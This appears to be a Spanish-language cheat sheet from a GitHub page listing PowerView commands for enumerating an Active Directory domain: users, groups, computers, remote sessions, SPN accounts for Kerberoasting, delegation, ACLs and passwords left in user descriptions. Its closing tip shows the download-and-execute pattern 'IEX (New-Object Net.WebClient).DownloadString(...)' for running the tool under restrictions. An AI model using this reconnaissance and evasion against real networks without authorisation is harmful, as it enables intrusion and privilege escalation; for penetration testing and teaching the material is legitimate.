 ## 🧠 Importar PowerView

```powershell
# Importar el módulo
Import-Module .\PowerView.ps1
```

---

## 🏢 Información del Dominio

```powershell
# Información del dominio actual
Get-Domain

# Controladores de dominio
Get-DomainController

# Políticas del dominio
Get-DomainPolicy

# Forest actual
Get-Forest

# Trusts (confianzas entre dominios)
Get-DomainTrust
```

---

## 👤 Usuarios

```powershell
# Listar todos los usuarios
Get-DomainUser

# Información detallada de un usuario específico
Get-DomainUser -Identity juanperez

# Buscar usuarios con contraseñas no expiran
Get-DomainUser -Properties "PasswordNeverExpires" | Where-Object {$_.PasswordNeverExpires -eq "True"}

# Buscar usuarios con la opción "No puede cambiar contraseña"
Get-DomainUser -Properties "CannotChangePassword" | Where-Object {$_.CannotChangePassword -eq "True"}
```

---

## 👥 Grupos

```powershell
# Listar todos los grupos
Get-DomainGroup

# Miembros de un grupo
Get-DomainGroupMember -Identity "Administradores del dominio"

# Buscar grupos con miembros externos (interdominio)
Get-DomainForeignGroupMember
```

---

## 🗅️ Máquinas del Dominio

```powershell
# Enumerar todos los equipos unidos al dominio
Get-DomainComputer

# Equipos Windows 10
Get-DomainComputer | Where-Object {$_.OperatingSystem -like "*Windows 10*"}

# Equipos con sesiones activas
Get-NetSession -ComputerName <nombre_equipo>
```

---

## 🧑‍💼 Administradores de Máquina / Sesiones

```powershell
# Administradores locales de una máquina remota
Get-NetLocalGroup -ComputerName <nombre_equipo>

# Usuarios con sesión activa en un equipo remoto
Get-NetLoggedon -ComputerName <nombre_equipo>

# Ver usuarios que han iniciado sesión remotamente (sesiones SMB)
Get-NetSession -ComputerName <nombre_equipo>
```

---

## 🧬 Delegación y SPNs

```powershell
# Cuentas que tienen SPNs (candidatos para Kerberoasting)
Get-DomainUser -SPN

# Delegación sin restricciones
Get-DomainComputer -Unconstrained

# Delegación con restricciones (Resource-Based Constrained Delegation - RBCD)
Get-DomainComputer -TrustedToAuth
```

---

## 🧱 ACLs y permisos

```powershell
# Ver los permisos delegados en una OU
Get-DomainObjectAcl -Identity "OU=Marketing,DC=empresa,DC=local" -ResolveGUIDs

# Ver permisos en un usuario/grupo específico
Get-ObjectAcl -SamAccountName juanperez -ResolveGUIDs
```

---

## 📍 Buscar Objetivos Interesantes

```powershell
# Usuarios con posibles contraseñas en descripciones
Get-DomainUser -Properties description | Where-Object { $_.description -like "*pass*" }

# Buscar usuarios con propiedad "adminCount" (indica pertenencia a grupos privilegiados)
Get-DomainUser -Properties adminCount | Where-Object { $_.adminCount -eq 1 }

# Enumerar GPOs del dominio
Get-DomainGPO

# Buscar GPOs linkeadas a OUs específicas
Get-DomainOU -Properties gplink
```

---

## 💡 Tips

- Bajo restricciones, ejecutar PowerView de forma "reflectiva" (sin importar el módulo directamente) usando técnicas como `Invoke-Expression` o `IEX (New-Object Net.WebClient).DownloadString(...)`.
- Uso de `-SearchBase` para limitar el scope de búsqueda a una OU específica.
- Uso de `-LDAPFilter` para búsquedas más precisas.



